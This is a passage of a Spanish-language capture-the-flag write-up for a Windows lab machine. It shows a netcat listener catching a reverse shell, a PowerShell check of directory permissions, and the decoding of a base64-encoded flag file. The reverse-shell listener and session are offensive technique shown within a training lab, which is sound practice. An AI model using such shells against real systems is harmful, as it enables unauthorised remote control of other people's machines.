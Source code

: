   Obtenemos shell mediante netcat y con ayuda de rlwrap conseguimos mejorar un poco la movilidad en la shell.
    
      ┌──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
      └─# rlwrap nc -lnvp 2000  
      listening on [any] 2000 ...
      connect to [10.9.92.151] from (UNKNOWN) [10.10.74.249] 49821
      Microsoft Windows [Version 10.0.17763.1821]
      (c) 2018 Microsoft Corporation. All rights reserved.
      
      C:\xampp\htdocs\uploads>powershell
      powershell
      Windows PowerShell 
      Copyright (C) Microsoft Corporation. All rights reserved.
        
      PS C:\xampp\htdocs\uploads> Get-Acl .\ | Format-List
      Get-Acl .\ | Format-List
      
      Path   : Microsoft.PowerShell.Core\FileSystem::C:\xampp\htdocs\uploads
      Owner  : HOSTEVASION\evader
      Group  : HOSTEVASION\None
      Access : BUILTIN\Users Allow  FullControl
               NT AUTHORITY\SYSTEM Allow  FullControl
               BUILTIN\Administrators Allow  FullControl
               HOSTEVASION\evader Allow  FullControl    ------------> TENEMOS CONTROL TOTAL EN EL DIRECTORIO. <-------------
               CREATOR OWNER Allow  268435456
      Audit  : 
      Sddl   : O:S-1-5-21-1966530601-3185510712-10604624-1022G:S-1-5-21-1966530601-3185510712-10604624-513D:AI(A;OICIID;FA;;;
               BU)(A;OICIID;FA;;;SY)(A;OICIID;FA;;;BA)(A;ID;FA;;;S-1-5-21-1966530601-3185510712-10604624-1022)(A;OICIIOID;GA;
               ;;CO)

- Buscamos la flag de usuario.

      PS C:\users\evader\desktop> dir
      
      Mode                LastWriteTime         Length Name                                                                  
      ----                -------------         ------ ----                                                                  
      -a----        6/21/2016   3:36 PM            527 EC2 Feedback.website                                                  
      -a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website                                   
      -a----         8/3/2023   7:12 PM            194 encodedflag                                                           
      
      PS C:\users\evader\desktop> type encodedflag
      type encodedflag
      -----BEGIN CERTIFICATE-----
      WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
      LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
      aHA=
      -----END CERTIFICATE-----

  - Vemos que la flag esta encodeada en base64 la decodeamos y encontramos una url llamativa.
 
        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
        └─# echo 'WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
        LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
        aHA=' | base64 -d
        You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php
